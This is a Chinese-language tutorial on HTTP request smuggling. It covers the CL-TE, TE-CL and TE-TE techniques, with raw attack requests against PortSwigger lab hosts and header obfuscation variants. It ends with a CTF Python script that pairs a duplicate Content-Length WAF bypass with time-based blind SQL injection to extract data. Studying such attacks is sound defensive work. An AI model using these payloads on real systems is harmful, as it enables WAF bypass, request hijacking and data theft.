

正常的请求

请求走私, 攻击者通过在自己的请求中夹带一个请求, 来影响到下一个请求中, 一个典型的例子是反射型xss, 通过在上一次请求中走私一个请求头, 就可以在正常用户接下来进行的一次正常请求的过程中纂改其请求内容, 比如修改他的请求路径为一个反射性xss链接, 这样就可以达到让用户点击正常链接但是却触发xss链接的目的.

其他的利用
- 捕获用户请求
- 缓存投毒
- 绕过waf(夹带危险请求url, 并在下一次正常请求的时候触发)
- 绕过前端安全控制
首先要知道http发包过程中两个标头的意思
-
Content-Length
- 表示请求体的长度, 简称CL
Content-Length: 10 8 HELLO
10个长度指的是以下内容的长度
8\r\n
HELLO\r\n
-
Transfer-Encoding, 简称TE
- 表示编码时使用的安全传输的形式有效载荷体
# 常见的几种 Transfer-Encoding: chunked Transfer-Encoding: compress Transfer-Encoding: deflate Transfer-Encoding: gzip Transfer-Encoding: identity请求走私中一般用的都是
chunked, 将消息正文视为使用分块编码.这里声明8字节长度, 经过一个换行后开始统计, 统计完8字节后经过一个换行表示下一个数据块开始, 长度为0, 被视为请求终止Transfer-Encoding: chunked 8 SMUGGLED 0一个典型的请求如下
HTTP/1.1 200 OK Content-Type: text/plain Transfer-Encoding: chunked 7\r\n Mozilla\r\n 9\r\n Developer\r\n 7\r\n Network\r\n 0\r\n \r\n
请求走私发生在存在前端服务器和后端服务器的情况下, 一般有这么几种
- CL-TE: 前端服务器识别的是Content_-Length, 后端服务器识别的是Transfer-Encoding
- TE-CL: 前端服务器识别的是Transfer-Encoding, 后端服务器识别的是Content-Length
- TE-TE: 前端服务器和后端服务器都是识别Transfer-Encoding的, 但是可以通过某种方式处理标头诱导一台服务器不对其进行处理
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
CL-TE
POST / HTTP/1.1
Host: ac811f861fa3584f80e0998500f800dc.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=6mA52yc42gmrXsBVf3gCCwaizRMowHXn
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
0
G
长度为6是因为0\r\n\r\nG, chunked看到0\r\n\r\n之后就结束接受了, 剩下来一个作为下一个请求头的开始
TE-CL
POST / HTTP/1.1
Host: ac4e1f3c1fe90e5480a44952006b00a0.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=MDCGt1IHa1MdeOnP1wkjRX15gMuiEGT6
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
12
GPOST / HTTP/1.1
0
chunked检测合理, 注意0\r\n\r\n是规定的结束格式, 然后后端只取12\r\n, 剩下来的东西就变成下一个请求的一部分
TE-TE
POST / HTTP/1.1
Host: ac731fb01fc279f280a00aac002d0026.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=nGAfuCE6lQ9mnpysbHjt8yG3eO5XnU5S
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: nothing
12
GPOST / HTTP/1.1
0
这里的情况是前端服务器以第一个TE为标准后端服务器以第二个为标准, 前端服务器通过之后, 后端服务器的TE值不存在, 就转而使用Content-Length为依据, 这个时候的情况就相当于TE-CL情况
脚本示例
burpsuite有时候会失败, 用socket
# 2019 高校运维赛 ezwaf
# 使用cl-cl模式 两个content-length
import socket
ip = '111.186.57.43'
port = 10601
def send_raw(raw):
try:
with socket.create_connection((ip, port), timeout=5) as conn:
conn.send(raw)
res = conn.recv(10240).decode()
# print(res)
return False
except:
return True
if __name__ == '__main__':
res = 'flag{abypass_modsecurity_'
res = ""
for i in range(1, 64):
for j in range(32, 127):
payload = '''GET /?age=1%20or%201%20and%20ascii(substr((select%20*%20from%20flag_xdd),{},1))={}%20and%20sleep(7) HTTP/1.1
Host: 111.186.57.43:10601
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 0
Content-Length: 0
'''.format(str(i), str(j))
exp = payload.encode().replace(b'\n', b'\r\n')
# print(exp)
if send_raw(exp):
res += chr(j)
print(res)
continue
使用工具:
burpsuite插件HTTP Request Smuggler
https://github.com/defparam/smuggler
参考
https://mp.weixin.qq.com/s/MFw7Trd-zFWNXsU3wTG_Mg
https://portswigger.net/web-security/request-smuggling/exploiting